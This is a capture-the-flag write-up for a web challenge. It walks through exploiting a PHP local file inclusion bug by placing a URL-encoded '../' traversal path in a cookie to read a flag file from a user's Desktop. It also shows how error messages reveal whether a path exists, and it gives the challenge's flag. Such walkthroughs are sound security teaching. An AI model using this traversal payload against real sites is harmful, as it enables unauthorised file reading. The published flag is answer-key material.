 # Search high and low, you should. Yeesssssss.

## Description

Bob rushed out the site for ShoppingBaba's big Star Wars merchandise  sale so that he could go home and watch The Mandalorian. While he was at home, the attackers found a bug that allowed them to move outside the webserver and find his hidden secrets. His greatest secret was found in  the flag file found on his Desktop folder named babyyoda.

## Solution

The description hints strongly at some kind of local file inclusion exploit (see CSCG LFI). Go look for somewhere with a file path:

![Filepath Cookie](https://raw.githubusercontent.com/willi123yao/Cyberthon2020_Writeups/master/web_services/yoda/cookie.png)

Ah, this cookie has a file path: `%2Fbabyyoda_old_method.jpg`. `%2F` is `/` in URL encoding. However, it points at the wrong place. Let's try adding a `../` _(cookie is `%2F..%2Fbabyyoda_old_method.jpg`)_:

![**Warning**:  include(/var/www/html/picture/../babyyoda_old_method.jpg): failed to open stream: No such file or directory in **/var/www/html/index.php** on line **15**](https://raw.githubusercontent.com/willi123yao/Cyberthon2020_Writeups/master/web_services/yoda/error.png)

The file is in the Desktop folder, to we can try this cookie (normal Linux filesystem):

```
%2F..%2F..%2F..%2F..%2Fhome%2Fbob%2FDesktop%2Fbabyyoda%2Fflag
  /..  /..  /..  /..  /home  /bob  /Desktop  /babyyoda  /flag
 get back to root    |          get to the flag 
```

Point to note: when the file path leads to a folder, it returns

```
failed to open stream: Success
```

If the file path is invalid, it will return

```
failed to open stream: No such file or directory
```

This can be used to identify valid and invalid paths.

## Flag

```
Cyberthon{3nufm0v1ng4rd}
```
